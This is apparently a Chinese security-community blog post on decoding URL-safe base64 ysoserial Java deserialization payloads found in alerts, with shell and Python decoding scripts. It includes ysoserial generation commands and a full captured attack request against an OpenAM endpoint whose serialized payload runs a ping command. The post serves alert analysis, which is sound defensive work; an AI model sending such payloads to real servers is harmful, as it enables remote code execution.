# 奇安信攻防社区 - 一种 ysoserial.jar 反序列化 Payload 的解码

## 0x00 前言

小伙伴在分析告警的时候，发现反序列化告警，Payload 类似`AKztAA`，不知道咋解，于是有了本文。

## 0x01 文件头

开始之前，先来复习一些涉及到的一些文件头

以`rO0AB`开头，java 序列化 base64 编码的数据  
以`aced`开头，java 序列化的 16 进制  
以上两个，都可以用 [https://github.com/phith0n/zkar](https://github.com/phith0n/zkar) 和[https://github.com/NickstaDB/SerializationDumper](https://github.com/NickstaDB/SerializationDumper) 去解析

以`cafebabe`开头，java class 文件的 16 进制，保存成 class，拖到 idea 中反编译

有了这些文件头信息，下面就可以开始用 ysoserial.jar 生成 Payload 了

## 0x02 原始 payload

生成 Payload

```bash
java -jar ysoserial.jar Click1 "touch /tmp/xx" > raw_payload.bin
```



查看生成的 Payload 的十六进制

```bash
hexdump -C raw_payload.bin
```



显然，以`aced`开头，java 序列化的 16 进制，使用`zkar解析`

```bash
./zkar dump -f raw_payload.bin > raw_payload_decode.txt
```

然后查看生成的文件，应该可以找到下图：



以`cafebabe`开头，java class 文件的 16 进制，保存成 class，拖到 idea 中反编译即可。

## 0x03 编码替换的 Payload

我们在日常分析的时候，java 反序列化的漏洞，可能看到的是下面的`AKztAAV`开头的 Payload，对于这类 Payload 的解码流程，基本上就是先补等号，替换`_`和`-`为`/`和`+`，然后 base64 解码，跳过开头的空字符，最后的结果丢给 zkar 解析就行。如果 zkar 解析出来有看到`ca fe`开头的十六进制，就把它提取出来，保存成 class 文件，最后将 class 文件丢给 idea 反编译，即可看到攻击者最终想要执行的命令了。有点乱？没关系，下面我们会一步步分析。



这种 Payload 一般执行如下命令：

```bash
java -jar ysoserial.jar Click1 "touch /tmp/xx" | (echo -ne \\x00 && cat) | base64 | tr '/+' '_-' | tr -d '='
```

命令的意思是，使用`ysoserial.jar`生成一个指定`Click1`这个 gadget 去执行`touch /tmp/xx`命令的序列化的 Payload，然后在该 Payload 的前面插入一个空字节（`\x00`），之后对其进行 base64 编码，编码后的内容，将`/` 替换为 `_`，和 `+` 替换为 `-`，最后将`=`去掉。

\> 替换`/`和`+`是因为 base64 编码的输出可能包含 `/` 和 `+` 字符，这些字符在 URL 中有特殊含义，因此需要替换成其他字符以避免问题。

拆开如下：

```bash
java -jar ysoserial.jar Click1 "touch /tmp/xx" > raw_payload.bin
cat raw_payload.bin | (echo -ne \\x00 && cat) > raw_payload_00.bin
cat raw_payload_00.bin | base64 > raw_payload_00_base64.bin
cat raw_payload_00_base64.bin | tr '/+' '_-' | tr -d '=' > raw_payload_00_base64_replace.bin
```

因此，我们反着来，即可一步步还原，先处理第四步，替换和等号的问题，等号需要根据字符串长度补充

```bash
cat raw_payload_00_base64_replace.bin | tr '_-' '/+'  > restore_raw_payload_00_base64_replace_lack_equal.bin
```

然后执行下面的 shell 脚本

```bash
#!/bin/bash

file_content=$(cat restore_raw_payload_00_base64_replace_lack_equal.bin)

# 移除可能存在的换行符
base64_string=$(echo -n "$file_content" | tr -d '\n')

# 计算base64编码字符串长度
length=${#base64_string}

# 计算需要补充的等号数量
remainder=$((length % 4))
padding=$(((4 - remainder) % 4))

# 补充等号
if ((padding &gt; 0)); then
    padding_string=$(printf '=%.0s' $(seq 1 $padding))
    base64_string="$base64_string$padding_string"
fi

echo "$base64_string"
```

```bash
./add_equal.sh > restore_raw_payload_00_base64_replace.bin
```

这时候我们可以比对一下，看看是否还原成功



接下来开始还原第三步，base64 解码即可：

```bash
cat restore_raw_payload_00_base64_replace.bin | base64 -d > restore_raw_payload_00.bin
```



然后是第二步，跳过开头的空字节：

```bash
tail -c +2 restore_raw_payload_00.bin > restore_raw_payload.bin
```



最后就是拿过去让`zkar`解析了，这里不再重复了

## 0x04 实战

拿到攻击者的请求：

```bash
GET /openam/oauth2/..;/ccversion/Version?jato.pageSession=AKztAAVzcgAXamF2YS51dGlsLlByaW9yaXR5UXVldWWU2jC0-z-CsQMAAkkABHNpemVMAApjb21wYXJhdG9ydAAWTGphdmEvdXRpbC9Db21wYXJhdG9yO3hwAAAAAnNyADBvcmcuYXBhY2hlLmNsaWNrLmNvbnRyb2wuQ29sdW1uJENvbHVtbkNvbXBhcmF0b3IAAAAAAAAAAQIAAkkADWFzY2VuZGluZ1NvcnRMAAZjb2x1bW50ACFMb3JnL2FwYWNoZS9jbGljay9jb250cm9sL0NvbHVtbjt4cAAAAAFzcgAfb3JnLmFwYWNoZS5jbGljay5jb250cm9sLkNvbHVtbgAAAAAAAAABAgATWgAIYXV0b2xpbmtaAAplc2NhcGVIdG1sSQAJbWF4TGVuZ3RoTAAKYXR0cmlidXRlc3QAD0xqYXZhL3V0aWwvTWFwO0wACmNvbXBhcmF0b3JxAH4AAUwACWRhdGFDbGFzc3QAEkxqYXZhL2xhbmcvU3RyaW5nO0wACmRhdGFTdHlsZXNxAH4AB0wACWRlY29yYXRvcnQAJExvcmcvYXBhY2hlL2NsaWNrL2NvbnRyb2wvRGVjb3JhdG9yO0wABmZvcm1hdHEAfgAITAALaGVhZGVyQ2xhc3NxAH4ACEwADGhlYWRlclN0eWxlc3EAfgAHTAALaGVhZGVyVGl0bGVxAH4ACEwADW1lc3NhZ2VGb3JtYXR0ABlMamF2YS90ZXh0L01lc3NhZ2VGb3JtYXQ7TAAEbmFtZXEAfgAITAAIcmVuZGVySWR0ABNMamF2YS9sYW5nL0Jvb2xlYW47TAAIc29ydGFibGVxAH4AC0wABXRhYmxldAAgTG9yZy9hcGFjaGUvY2xpY2svY29udHJvbC9UYWJsZTtMAA10aXRsZVByb3BlcnR5cQB-AAhMAAV3aWR0aHEAfgAIeHAAAQAAAABwcHBwcHBwcHBwdAAQb3V0cHV0UHJvcGVydGllc3Bwc3IAHm9yZy5hcGFjaGUuY2xpY2suY29udHJvbC5UYWJsZQAAAAAAAAABAgAXSQAOYmFubmVyUG9zaXRpb25aAAlob3ZlclJvd3NaABdudWxsaWZ5Um93TGlzdE9uRGVzdHJveUkACnBhZ2VOdW1iZXJJAAhwYWdlU2l6ZUkAE3BhZ2luYXRvckF0dGFjaG1lbnRaAAhyZW5kZXJJZEkACHJvd0NvdW50WgAKc2hvd0Jhbm5lcloACHNvcnRhYmxlWgAGc29ydGVkWgAPc29ydGVkQXNjZW5kaW5nTAAHY2FwdGlvbnEAfgAITAAKY29sdW1uTGlzdHQAEExqYXZhL3V0aWwvTGlzdDtMAAdjb2x1bW5zcQB-AAdMAAtjb250cm9sTGlua3QAJUxvcmcvYXBhY2hlL2NsaWNrL2NvbnRyb2wvQWN0aW9uTGluaztMAAtjb250cm9sTGlzdHEAfgAQTAAMZGF0YVByb3ZpZGVydAAsTG9yZy9hcGFjaGUvY2xpY2svZGF0YXByb3ZpZGVyL0RhdGFQcm92aWRlcjtMAAZoZWlnaHRxAH4ACEwACXBhZ2luYXRvcnQAJUxvcmcvYXBhY2hlL2NsaWNrL2NvbnRyb2wvUmVuZGVyYWJsZTtMAAdyb3dMaXN0cQB-ABBMAAxzb3J0ZWRDb2x1bW5xAH4ACEwABXdpZHRocQB-AAh4cgAob3JnLmFwYWNoZS5jbGljay5jb250cm9sLkFic3RyYWN0Q29udHJvbAAAAAAAAAABAgAJTAAOYWN0aW9uTGlzdGVuZXJ0ACFMb3JnL2FwYWNoZS9jbGljay9BY3Rpb25MaXN0ZW5lcjtMAAphdHRyaWJ1dGVzcQB-AAdMAAliZWhhdmlvcnN0AA9MamF2YS91dGlsL1NldDtMAAxoZWFkRWxlbWVudHNxAH4AEEwACGxpc3RlbmVydAASTGphdmEvbGFuZy9PYmplY3Q7TAAObGlzdGVuZXJNZXRob2RxAH4ACEwABG5hbWVxAH4ACEwABnBhcmVudHEAfgAXTAAGc3R5bGVzcQB-AAd4cHBwcHBwcHBwcAAAAAIAAQAAAAAAAAAAAAAAAQAAAAAAAAAAAXBzcgATamF2YS51dGlsLkFycmF5TGlzdHiB0h2Zx2GdAwABSQAEc2l6ZXhwAAAAAHcEAAAAAHhzcgARamF2YS51dGlsLkhhc2hNYXAFB9rBwxZg0QMAAkYACmxvYWRGYWN0b3JJAAl0aHJlc2hvbGR4cD9AAAAAAAAAdwgAAAAQAAAAAHhwcHBwcHBwcHBwdwQAAAADc3IAOmNvbS5zdW4ub3JnLmFwYWNoZS54YWxhbi5pbnRlcm5hbC54c2x0Yy50cmF4LlRlbXBsYXRlc0ltcGwJV0_BbqyrMwMABkkADV9pbmRlbnROdW1iZXJJAA5fdHJhbnNsZXRJbmRleFsACl9ieXRlY29kZXN0AANbW0JbAAZfY2xhc3N0ABJbTGphdmEvbGFuZy9DbGFzcztMAAVfbmFtZXEAfgAITAARX291dHB1dFByb3BlcnRpZXN0ABZMamF2YS91dGlsL1Byb3BlcnRpZXM7eHAAAAAA_____3VyAANbW0JL_RkVZ2fbNwIAAHhwAAAAAnVyAAJbQqzzF_gGCFTgAgAAeHAAAAa1yv66vgAAADIAOQoAAwAiBwA3BwAlBwAmAQAQc2VyaWFsVmVyc2lvblVJRAEAAUoBAA1Db25zdGFudFZhbHVlBa0gk_OR3e8-AQAGPGluaXQ-AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBABNTdHViVHJhbnNsZXRQYXlsb2FkAQAMSW5uZXJDbGFzc2VzAQA1THlzb3NlcmlhbC9wYXlsb2Fkcy91dGlsL0dhZGdldHMkU3R1YlRyYW5zbGV0UGF5bG9hZDsBAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhkb2N1bWVudAEALUxjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NOwEACGhhbmRsZXJzAQBCW0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAKRXhjZXB0aW9ucwcAJwEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhpdGVyYXRvcgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAKU291cmNlRmlsZQEADEdhZGdldHMuamF2YQwACgALBwAoAQAzeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRTdHViVHJhbnNsZXRQYXlsb2FkAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAFGphdmEvaW8vU2VyaWFsaXphYmxlAQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQAfeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cwEACDxjbGluaXQ-AQARamF2YS9sYW5nL1J1bnRpbWUHACoBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7DAAsAC0KACsALgEAH3BpbmcgLW4gNCAtbCAxMjU1NCAxMC4yMDAuMzAuMTUIADABAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7DAAyADMKACsANAEADVN0YWNrTWFwVGFibGUBAB55c29zZXJpYWwvUHduZXIyMjI3NDgxMDI2MjI4NDgBACBMeXNvc2VyaWFsL1B3bmVyMjIyNzQ4MTAyNjIyODQ4OwAhAAIAAwABAAQAAQAaAAUABgABAAcAAAACAAgABAABAAoACwABAAwAAAAvAAEAAQAAAAUqtwABsQAAAAIADQAAAAYAAQAAAC8ADgAAAAwAAQAAAAUADwA4AAAAAQATABQAAgAMAAAAPwAAAAMAAAABsQAAAAIADQAAAAYAAQAAADQADgAAACAAAwAAAAEADwA4AAAAAAABABUAFgABAAAAAQAXABgAAgAZAAAABAABABoAAQATABsAAgAMAAAASQAAAAQAAAABsQAAAAIADQAAAAYAAQAAADgADgAAACoABAAAAAEADwA4AAAAAAABABUAFgABAAAAAQAcAB0AAgAAAAEAHgAfAAMAGQAAAAQAAQAaAAgAKQALAAEADAAAACQAAwACAAAAD6cAAwFMuAAvEjG2ADVXsQAAAAEANgAAAAMAAQMAAgAgAAAAAgAhABEAAAAKAAEAAgAjABAACXVxAH4AJAAAAdTK_rq-AAAAMgAbCgADABUHABcHABgHABkBABBzZXJpYWxWZXJzaW9uVUlEAQABSgEADUNvbnN0YW50VmFsdWUFceZp7jxtRxgBAAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEAA0ZvbwEADElubmVyQ2xhc3NlcwEAJUx5c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzJEZvbzsBAApTb3VyY2VGaWxlAQAMR2FkZ2V0cy5qYXZhDAAKAAsHABoBACN5c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzJEZvbwEAEGphdmEvbGFuZy9PYmplY3QBABRqYXZhL2lvL1NlcmlhbGl6YWJsZQEAH3lzb3NlcmlhbC9wYXlsb2Fkcy91dGlsL0dhZGdldHMAIQACAAMAAQAEAAEAGgAFAAYAAQAHAAAAAgAIAAEAAQAKAAsAAQAMAAAALwABAAEAAAAFKrcAAbEAAAACAA0AAAAGAAEAAAA8AA4AAAAMAAEAAAAFAA8AEgAAAAIAEwAAAAIAFAARAAAACgABAAIAFgAQAAlwdAAEUHducnB3AQB4c3IAFGphdmEubWF0aC5CaWdJbnRlZ2VyjPyfH6k7-x0DAAZJAAhiaXRDb3VudEkACWJpdExlbmd0aEkAE2ZpcnN0Tm9uemVyb0J5dGVOdW1JAAxsb3dlc3RTZXRCaXRJAAZzaWdudW1bAAltYWduaXR1ZGV0AAJbQnhyABBqYXZhLmxhbmcuTnVtYmVyhqyVHQuU4IsCAAB4cP_______________v____4AAAABdXEAfgAkAAAAAQF4eA HTTP/1.1
Host: 10.162.147.159:9200
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:54.0) Gecko/20100101 Firefox/54.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/xml
```

扣出其中`jato.pageSession` 参数的值，保存成`target.bin`



先处理替换和等号的问题

```bash
cat target.bin | tr '_-' '/+'  > target_lack_equal.bin
./add_equal.sh target_lack_equal.bin > target_base64.bin
```

这里的`add.equal.sh`简单修改一下，支持传入文件名字

```bash
#!/bin/bash

if [ "$#" -ne 1 ]; then
    echo "Usage: $0 "
    exit 1
fi

filename="$1"

if [ ! -f "$filename" ]; then
    echo "File '$filename' not found."
    exit 1
fi

file_content=$(cat "$filename") # 读取文件内容

# 移除可能存在的换行符
base64_string=$(echo -n "$file_content" | tr -d '\n')

# 计算base64编码字符串长度
length=${#base64_string}

# 计算需要补充的等号数量
remainder=$((length % 4))
padding=$(((4 - remainder) % 4))

# 补充等号
if ((padding &gt; 0)); then
    padding_string=$(printf '=%.0s' $(seq 1 $padding))
    base64_string="$base64_string$padding_string"
fi

echo "$base64_string"
```

然后处理 base64 和开头的`00`的问题

```bash
cat target_base64.bin | base64 -d > target_00.bin   
tail -c +2 target_00.bin > restore.bin
```

然后就是用 zkar 解析一波

```bash
./zkar dump -f restore.bin > restore.txt
```

将中间反序列化部分扣出来，保存成 ser\_hex.txt





然后执行下面的脚本保存成 class 文件：

```bash
import re
import sys

def remove_hex_line(input_string):
    pattern = re.compile(r'[0-9a-fA-F]{8}')
    return re.sub(pattern, '', input_string)

def remove_vertical_line(input_string):
    pattern = re.compile(r'\|.*\|')
    return re.sub(pattern, '', input_string)

def extract_hex_to_file(input_filename, output_filename):
    with open(input_filename, "r") as file:
        input_text = file.read()

    input_text = remove_hex_line(input_text)
    input_text = remove_vertical_line(input_text)
    hex_data = re.findall(r"[0-9a-fA-F]{2}(?: [0-9a-fA-F]{2})*", input_text)
    hex_string = "".join(hex_data).replace(" ", "")

    with open(output_filename, "wb") as file:
        file.write(bytes.fromhex(hex_string))

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Usage: python3 extract_hex.py input_filename output_filename")
        sys.exit(1)

    input_filename = sys.argv[1]
    output_filename = sys.argv[2]

    extract_hex_to_file(input_filename, output_filename)
```

```bash
python3 extract_hex.py ser_hex.txt restore.class
```

拿到 class，然后丢到 idea 中，自己反编译了



## 0x05 后言

在分析的时候，发现 ysoserial 两次生成 Payload 会不一样的。。。卡了我好一会。。。



虽然分析没问题，但是步骤略微繁琐，后续有空，可以考虑整合成一个工具，自动解码。
